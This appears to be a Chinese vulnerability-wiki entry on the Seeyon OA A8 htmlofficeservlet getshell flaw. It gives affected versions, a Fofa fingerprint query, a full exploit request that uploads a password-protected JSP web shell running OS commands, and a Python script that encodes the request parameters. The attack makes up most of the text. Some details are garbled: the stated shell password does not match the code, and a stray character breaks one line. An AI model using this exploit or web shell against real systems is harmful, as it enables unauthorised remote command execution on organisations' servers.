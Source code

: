 致远 OA A8 htmlofficeservlet getshell 漏洞
==========================================

一、漏洞简介
------------

访问https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/19f51e83094c4ce79a3da658a24f961b.png\"
alt=\"1.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>

二、漏洞影响
------------

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件 V7.1

三、复现过程
------------

### 指纹

    https://www.0-sec.org/seeyon/htmlofficeservlet/seeyon/index.jsp
    seeyon
    Fofa：app="用友-致远OA"

![0d4b978ed1474946.png](/Users/aresx/Documents/VulWiki/.resource/致远OAA8htmlofficeservletgetshell漏洞/media/rId25.png)

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce

webshell地址为**https://www.0-sec.org/seeyon/test123456.jsp**，密码为：asasd3344。

### poc

    from sys import argv

    letters = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"

    def base64_encode(input_str):
        str_ascii_list = ['{:0>8}'.format(str(bin(ord(i))).replace('0b', ''))
                          for i in input_str]
        output_str = ''
        equal_num = 0
        while str_ascii_list:
            temp_list = str_ascii_list[:3]
            if len(temp_list) != 3:
                while len(temp_list) < 3:
                    equal_num += 1
                    temp_list += ['0' * 8]
            temp_str = ''.join(temp_list)
            temp_str_list = [temp_str[x:x + 6] for x in [0, 6, 12, 18]]
            temp_str_list = [int(x, 2) for x in temp_str_list]
            if equal_num:
                temp_str_list = temp_str_list[0:4 - equal_num]
            output_str += ''.join([letters[x] for x in temp_str_list])
            str_ascii_list = str_ascii_list[3:]
        output_str = output_str + '=' * equal_num
        return output_str

    def base64_decode(input_str):
        str_ascii_list = ['{:0>6}'.format(str(bin(letters.index(i))).replace('0b', ''))
                          for i in input_str if i != '=']
        output_str = ''
        equal_num = input_str.count('=')
        while str_ascii_list:
            temp_list = str_ascii_list[:4]
            temp_str = ''.join(temp_list)
            if len(temp_str) % 8 != 0:
                temp_str = temp_str[0:-1 * equal_num * 2]
            temp_str_list = [temp_str[x:x + 8] for x in [0, 8, 16]]
            temp_str_list = [int(x, 2) for x in temp_str_list if x]
            output_str += ''.join([chr(x) for x in temp_str_list])
            str_ascii_list = str_ascii_list[4:]
        return output_str

    if __name__ == "__main__":
        if len(argv) == 2:
            print(base64_decode(argv[1]))
        elif len(argv) == 3:
            if argv[1] == '-d':
                print(base64_decode(argv[2]))
            else:
                print(base64_encode(argv[2]))
        else:
            print("Seeyon OA /seeyon/htmlofficeservlet param encode/decode")
            print("Usage:")
            print("python %s encoded_str" % argv[0])t
            print("python %s -d encoded_str" % argv[0])
            print("python %s -e raw_str" % argv[0])

参考链接
--------

> https://github.com/nian-hua/CVEScript/blob/master/致远OA/zhiyuan.py
>
> http://wyb0.com/posts/2019/seeyon-htmlofficeservlet-getshell/
